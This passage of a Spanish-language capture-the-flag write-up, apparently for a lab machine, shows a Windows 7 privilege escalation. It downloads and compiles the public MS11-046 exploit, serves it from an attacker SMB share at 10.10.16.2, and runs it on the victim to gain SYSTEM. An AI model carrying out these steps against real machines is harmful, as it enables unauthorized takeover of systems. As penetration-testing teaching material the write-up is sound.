 Nos fijamos en `OS Name: Microsoft Windows 7 Enterprise` y `OS Version: 6.1.7600 N/A Build 7600`.

Haciendo una pequeña búsqueda encontramos el siguiente exploit en <a href="https://www.exploit-db.com/exploits/40564" target="_blank">Exploit-db</a>.

1 - Descargamos el script.

```bash
❯ wget -O MS11-046-Privesc.c https://www.exploit-db.com/raw/40564
--2022-09-05 00:21:50--  https://www.exploit-db.com/raw/40564
Resolviendo www.exploit-db.com (www.exploit-db.com)... 192.124.249.13
Conectando con www.exploit-db.com (www.exploit-db.com)[192.124.249.13]:443... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: no especificado [text/plain]
Grabando a: «MS11-046-Privesc.c»

MS11-046-Privesc.c                                      [ <=>                                                                                                               ]  31,91K  --.-KB/s    en 0,03s   

2022-09-05 00:21:51 (980 KB/s) - «MS11-046-Privesc.c» guardado [32674]

```
<br>
2 - Compilamos en formato `.exe`.

```bash
❯ i686-w64-mingw32-gcc -o MS11-046-Privesc.exe MS11-046-Privesc.c -lws2_32
```
<br>
3 - Para compartirnos el ejecutable nos montamos un servidor smb en el directorio de trabajo.

```bash
❯ impacket-smbserver smbfolder .
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

```
<br>
4 - Desde la máquina víctima llamamos al ejecutable por smb.

```bash
c:\windows\system32\inetsrv>//10.10.16.2/SMBFOLDER/MS11-046-Privesc.exe

c:\Windows\System32>whoami
nt authority\system

```
¡Somos nt authority\system!
